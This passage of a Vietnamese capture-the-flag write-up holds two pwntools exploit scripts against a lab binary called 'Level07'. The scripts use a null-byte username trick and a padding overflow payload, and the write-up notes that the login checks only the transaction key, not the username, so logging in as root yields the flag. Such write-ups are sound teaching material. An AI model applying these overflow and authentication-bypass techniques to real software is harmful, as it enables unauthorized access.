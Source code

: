 ```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Level07')
p = process(exe.path)

p.sendlineafter(b'Code:',b'1')
p.sendlineafter(b'Enter username:',b'\x00root')
p.recvuntil(b'Transaction key: ')
data = p.recvline()

p.sendlineafter(b'Code:',b'2')
p.sendlineafter(b'Enter username:',b'\x00root')
p.sendlineafter(b'Enter transaction key:', data)
payload = b'Yes\x00' 
payload += b'A'*56
payload += b'\n'
p.sendlineafter(b'(Yes/No)\n', payload)
p.sendlineafter(b'Code:',b'3')

p.interactive()
```

![image](https://hackmd.io/_uploads/HkkwYnFwT.png)
![image](https://hackmd.io/_uploads/HkfoF2Fwp.png)

và mình nhận ra chương trình còn đơn giản hơn thế vì  khi đăng ký mình không nhập root mà nhập tên mình và sau khi đăng nhập chương trình chỉ kiểm tra API mà không kiểm tra tên người dùng nên lúc này mình sẽ nhập root và vẫn được flag

![image](https://hackmd.io/_uploads/SJ3fM6Yw6.png)

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Level07')
p = process(exe.path)

p.sendlineafter(b'Code:',b'1')
p.sendlineafter(b'Enter username:',b'cuong')
p.recvuntil(b'Transaction key: ')
data = p.recvline()

p.sendlineafter(b'Code:',b'2')
p.sendlineafter(b'Enter username:',b'root')
p.sendlineafter(b'Enter transaction key:', data)
payload = b'Yes\x00' 
payload += b'A'*56
payload += b'\n'
p.sendlineafter(b'(Yes/No)\n', payload)
p.sendlineafter(b'Code:',b'3')

p.interactive()
```

